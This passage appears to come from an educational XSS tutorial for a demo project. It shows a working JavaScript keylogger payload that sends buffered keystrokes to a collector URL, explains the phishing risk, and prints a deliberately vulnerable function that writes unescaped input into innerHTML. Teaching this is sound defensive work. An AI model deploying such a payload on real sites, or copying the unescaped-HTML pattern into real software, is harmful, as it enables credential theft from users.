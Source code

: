 Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

These are very primitive examples, but I think you can see the potential.


## So Why is this Bad?

Imagine instead of localhost:3000, this was your bank's website. And you see a link in an official-looking email. What happens if you click that link? You might be running some malicious code in the context of your bank's website. Not such a big deal if you aren't logged in at that moment. But what if you are? Or what if you enter your login credentials on the page with the malicious code? Beginning to feel a bit paranoid? Good :)


## Mitigation

Let's stop scaring you for a moment and see if we can fix this. In this example project, at the root, the XSS vulnerability is caused by inserting unsafe ("unescaped") HTML into the page. In the `public/index.html` file, you will find the following function:
```js
function showQueryAndResults(q, results) {

	var resultsEl = document.querySelector('#results');
	var html = '';

	html += '<p>Your search query:</p>';
	html += '<pre>' + q + '</pre>';
	html += '<ul>';

	for (var index = 0; index < results.length; index++) {
		html += '<li>' + results[index] + '</li>';
	}

	html += '</ul>';

	resultsEl.innerHTML = html;
}
```
This function is taking the search query (`q`) and inserting it as HTML into the `<div id="results"></div>` element. And since HTML allows JavaScript to be run inline via a number of different attributes, this provides a nice opportunity for XSS.
